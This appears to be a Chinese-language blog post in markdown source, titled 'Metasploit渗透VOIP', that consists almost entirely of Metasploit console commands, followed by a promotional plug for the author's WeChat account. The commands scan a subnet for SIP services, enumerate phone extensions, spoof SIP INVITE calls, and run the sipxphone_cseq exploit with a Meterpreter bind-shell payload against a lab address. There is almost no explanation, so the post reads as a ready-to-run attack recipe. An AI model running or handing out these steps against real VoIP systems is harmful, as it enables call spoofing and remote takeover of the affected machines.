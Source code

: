 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit渗透VOIP
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit渗透VOIP
lock: need
---
```


# Metasploit渗透VOIP

## 对VOIP服务踩点 

```
use auxiliary/scanner/sip/options
show options
set RHOSTS 192.168.109.0/24
run
```

## 扫描VOIP服务

```
use auxiliary/scanner/sip/enumerator
show options
set MINEXT 3000
set MAXEXT 3005
set PADLEN 4
set RHOSTS 192.168.109.0/24
run
```

## 欺骗VOIP电话

```
use auxiliary/voip/sip_invite_spoof
set RHOSTS 192.168.109.141
set EXTENSION 4444
show options
run
```

## 渗透VOIP

```
use exploit/windows/sip/sipxphone_cseq
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
set LHOST 192.168.109.137
show options
exploit
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
